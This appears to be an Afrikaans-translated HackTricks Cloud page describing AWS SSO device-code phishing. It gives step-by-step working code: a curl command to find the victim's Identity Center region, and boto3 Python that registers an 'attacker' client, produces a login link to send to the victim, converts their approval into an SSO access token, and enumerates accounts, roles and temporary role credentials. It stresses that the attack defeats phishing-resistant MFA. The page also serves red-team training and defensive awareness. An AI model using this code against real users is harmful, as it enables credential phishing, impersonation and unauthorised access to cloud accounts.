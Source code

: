 # AWS - Identiteitsentrum & SSO Ongeauthentiseerde Enum

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Opleiding AWS Rooi Span Ekspert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Rooi Span Ekspert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**intekening planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Toestelkode Phishing

Aanvanklik voorgestel in [**hierdie blogpos**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), dit is moontlik om 'n **skakel** na 'n gebruiker te stuur wat AWS SSO gebruik, wat, indien die **gebruiker aanvaar**, die aanvaller in staat sal stel om 'n **token te verkry om die gebruiker na te doen** en toegang te verkry tot al die rolle wat die gebruiker kan toegang hê in die **Identiteitsentrum**.

Om hierdie aanval uit te voer, is die vereistes:

* Die slagoffer moet **Identiteitsentrum** gebruik
* Die aanvaller moet die **subdomein** ken wat deur die slagoffer gebruik word `<victimsub>.awsapps.com/start`

Net met die vorige inligting, sal die **aanvaller in staat wees om 'n skakel na die gebruiker te stuur** wat, indien **aanvaar**, die **aanvaller toegang tot die AWS gebruiker** rekening sal gee.

### Aanval

1. **Vind die subdomein**

Die eerste stap van die aanvaller is om uit te vind watter subdomein die slagoffer maatskappy in hul Identiteitsentrum gebruik. Dit kan gedoen word deur **OSINT** of **raai + BF** aangesien die meeste maatskappye hul naam of 'n variasie van hul naam hier sal gebruik.

Met hierdie inligting is dit moontlik om die streek te kry waar die Identiteitsentrum geconfigureer is met:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Genereer die skakel vir die slagoffer & Stuur dit**

Voer die volgende kode uit om 'n AWS SSO aanmeldskakel te genereer sodat die slagoffer kan autentiseer.\
Vir die demo, voer hierdie kode in 'n python-konsol uit en verlaat dit nie, aangesien jy later 'n paar voorwerpe nodig sal hê om die token te verkry:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
Stuur die gegenereerde skakel na die slagoffer met jou wonderlike sosiale ingenieursvaardighede!

3. **Wag totdat die slagoffer dit aanvaar**

As die slagoffer **reeds in AWS ingelog** was, sal hy net die toestemmings moet aanvaar, as hy nie was nie, sal hy moet **inlog en dan die toestemmings aanvaar**.\
So lyk die prompt vandag:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Kry SSO-toegangstoken**

As die slagoffer die prompt aanvaar het, voer hierdie kode uit om **'n SSO-token te genereer wat die gebruiker naboots**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
Die SSO toegangstoken is **geldigheid vir 8h**.

5. **Verpersoonlik die gebruiker**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Phishing die onphishbare MFA

Dit is lekker om te weet dat die vorige aanval **werk selfs al word 'n "onphishbare MFA" (webAuth) gebruik**. Dit is omdat die vorige **werksaamheid nooit die gebruikte OAuth-domein verlaat nie**. Nie soos in ander phishing-aanvalle waar die gebruiker die aanmeld-domein moet vervang nie, in die geval is die toestelkode-werksaamheid voorberei sodat 'n **kode bekend is aan 'n toestel** en die gebruiker kan aanmeld selfs op 'n ander masjien. As die prompt aanvaar word, kan die toestel, net deur **die aanvanklike kode te ken**, **akkrediteer** vir die gebruiker.

Vir meer inligting oor hierdie [**kyk hierdie pos**](https://mjg59.dreamwidth.org/62175.html).

### Outomatiese Gereedskap

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## Verwysings

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
